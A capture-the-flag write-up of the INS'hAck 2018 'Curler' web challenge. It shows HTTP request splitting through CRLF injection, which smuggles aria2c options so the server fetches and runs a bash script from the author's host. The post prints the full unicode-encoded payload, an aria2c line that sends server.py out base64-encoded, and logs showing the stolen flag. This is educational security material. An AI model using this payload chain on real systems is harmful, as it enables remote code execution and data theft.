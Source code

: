 ```yaml
---
layout: post
title:  "INS'hAck CTF 2018 - Curler"
date:   2018-04-09 12:46
categories: [INShAck2018]
tags: [Web]
author: jbz
---
```


>Show me some stats on my website! Have a look to my source code attached too!
>nc curler.ctf.insecurity-insa.fr 10001
>[source](https://static.ctf.insecurity-insa.fr/wrapper.py)

nc curler.ctf.insecurity-insa.fr 10001

```bash
Launching your app..
5..
4..
3..
2..
1..
Welcome to your FaaS (Fetcher as a Service)!
This program allows you to fetch some stats on a given web url.

Current config is:
URL to fetch: http://insecurity-insa.fr
Fetcher options: {'timeout': 2, 'connect timeout': 2, 'max tries': 5, 'dry run': False}

Please choose your action:
  1. Change the default configuration of our fetcher
  2. Choose the URL you want us to inspect
  3. Fetch!
  4. Exit

Choice?
```

From the source code we can observe a lot of limitations:

* `url_to_fetch` must be valid JSON
* `url_to_fetch` when parsed with `urlparse` must return the http scheme, a valid host and a path
* `fetcher_options` is very limited and strictly controlled
* The outbound request is not made by the script itself but sent via POST to a Flask backend (but sources are not provided)

Also, by using the service we can get these other informations:

* No response content is ever returned, only statistical data, so we only know if the request was succesfull or not
* The Flask backend application use aria2 to perform the requests:

```bash
connect to [jbzserver] from ip-147-135-133.eu [147.135.133.206] 57218
GET / HTTP/1.1
User-Agent: aria2/1.19.0
Accept: */*,application/metalink4+xml,application/metalink+xml
Host: jbzserver:8080
````

`aria2` is a C language lightweight download manager which supports a lot of protocols and options.
It looks like the client script sends aria2 parameters and the destination url to the backend which then probably uses them via `subprocess`. Given the parametrization of the parameters they are probably used correctly (i.e.: no command injection with ;$() etc) so we should check `aria2` manual to see if there is any option that can be useful. However before looking into the command execution we need to find a way to send our custom parameters to tha backend.

From the source code:

```python
def fetch():
    # Hit local flask server
    conn = HTTPConnection(fetcher_service, 8888)
    options = []
    for conf in fetch_options.values():
        options.append(conf["key"] + "=" + str(conf["value"]).lower())
    params = bson.dumps({
        "options": options
    })
    conn.request("POST", "/?url=" + url_to_fetch, params)
    response = conn.getresponse()
    print("Stats:")
    print(response.read().decode())
    print()
```

As we can see they're not using python's `request` library but the raw `http.client`. Since `url_to_fetch` is appended without any particular sanitizations (aparte from being parse by `urlparse`) it's possible to inject CRLF to perform and HTTP request Splitting:
in practice we could add some newline characters we changing the `url_to_fetch` parameter and modify the request with our own body and headers. By controlling the `Content-Type` header we are able to force the backend server to discard the additional body added by the script.

By running the original script locally in order to test the vulnerability we can see that using `"http://jbz.com/ HTTP/1.1\r\nheader: splitting-test"` as a url the backend would receive the following request:

```bash
connect to [127.0.0.1] from localhost [127.0.0.1] 56362
POST /?url=http://jbz.com/ HTTP/1.1
header: splitting-test HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: identity
Content-Length: 109

moptions_0
          --timeout=21--connect-timeout=22--max-tries=53--dry-run=false

```

So the splitting does work.

However there's still a problem: the body of the request is being produced by the `bson.dumps` functions which hash a binary output which is not being encoded. Since our payload need to be loaded from the `url` config via the `json.loads` we can't directly send stuff like null bytes because JSON will fail. After a lot of testing we discovered that while `\x00` can't be used because it's a control character, it's unicode equivalent, `\u0000` is indeed valid.

The next step is to check the `aria2` manual to see if there are useful options:

From [the aria2c doc](http://aria2.github.io/manual/en/html/aria2c.html):

```bash
--on-download-complete=<COMMAND>

Set the command to be executed after download completed.
See See Event Hook for more details about COMMAND.
See also --on-download-stop option. Possible Values: /path/to/command
```

Let’s see an example of how arguments are passed to command:

``` bash
$ cat hook.sh
#!/bin/sh
echo "Called with [$1] [$2] [$3]"
$ aria2c --on-download-complete hook.sh http://example.org/file.iso
Called with [1] [1] [/path/to/file.iso]
```

The above options should help to achieve code execution but there are again limitations:

* `/path/to/command` needs the executable permissions which we cannot set
* The first argument of `/path/to/command` is the GID of the download

Luckly the GID of a download is random by default but it can be forced by the `--gid` option.
The following aria2c command succesfully execute the payload located at `http://jbzserver/a41b1d2f5a2c2da7`:

```bash
aria2c --on-download-complete=bash --gid=a41b1d2f5a2c2da7 http://jbzserver/a41b1d2f5a2c2da7 --dry-run=false
```

Here's the final payload prepared for the request splitting and unicode encoded:

```bash
"http://jbzserver:8080/a41b1d2f5a2c2da7 HTTP/1.1\r\nHost: localhost\r\nAccept-Encoding: identity\r\nContent-Length: 126\r\n\r\n\u007e\u0000\u0000\u0000\u0004\u006f\u0070\u0074\u0069\u006f\u006e\u0073\u0000\u0070\u0000\u0000\u0000\u0002\u0030\u0000\u0010\u0000\u0000\u0000\u002d\u002d\u0064\u0072\u0079\u002d\u0072\u0075\u006e\u003d\u0066\u0061\u006c\u0073\u0065\u0000\u0002\u0031\u0000\u001c\u0000\u0000\u0000\u002d\u002d\u006f\u006e\u002d\u0064\u006f\u0077\u006e\u006c\u006f\u0061\u0064\u002d\u0063\u006f\u006d\u0070\u006c\u0065\u0074\u0065\u003d\u0062\u0061\u0073\u0068\u0000\u0002\u0032\u0000\u000c\u0000\u0000\u0000\u002d\u002d\u0074\u0069\u006d\u0065\u006f\u0075\u0074\u003d\u0032\u0000\u0002\u0033\u0000\u0017\u0000\u0000\u0000\u002d\u002d\u0067\u0069\u0064\u003d\u0061\u0034\u0031\u0062\u0031\u0064\u0032\u0066\u0035\u0061\u0032\u0063\u0032\u0064\u0061\u0037\u0000\u0000\u0000\r\n\r\n"
```

For completeness, here's the payload:

```bash
#!/bin/bash
aria2c http://jbzserver:8080/?resp=$(cat server.py | base64 | tr -d '\n')
```

```bash
Serving HTTP on 0.0.0.0 port 8080 ...
213.32.74.44 - - [09/Apr/2018 10:23:37] "GET /a41b1d2f5a2c2da7 HTTP/1.1" 200 -
213.32.74.44 - - [09/Apr/2018 10:23:38] "GET /?resp=SU5TQXt3cm9uZ19saWJzX2NvbWJpbmF0aW9uP19vcl9iYWRfcHJvZ3JhbW1lcj99 HTTP/1.1" 200 -
```

The flag was `INSA{wrong_libs_combination?_or_bad_programmer?}`.
